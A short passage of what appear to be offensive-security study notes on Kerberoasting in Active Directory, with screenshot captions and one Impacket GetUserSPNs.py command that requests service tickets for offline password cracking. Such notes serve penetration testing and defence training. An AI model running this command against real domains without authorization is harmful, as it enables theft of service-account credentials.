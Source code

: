 ![](/assets/Images-Notes-01/2022-01-08-13-54-21.png)
_Kerberoasting in action_

**Attack Method**

Once you have admin/standard user access, look for the supported SPNs and get TGS ticket for the SPN using GetUserSPNs tool from Impacket.
```bash
GetUserSPNs.py -request -dc-ip <DC_IP> <domain\user>
```
![](/assets/Images-Notes-01/2022-01-08-13-55-16.png)
_TGS ticket dump from Attacker’s PC_
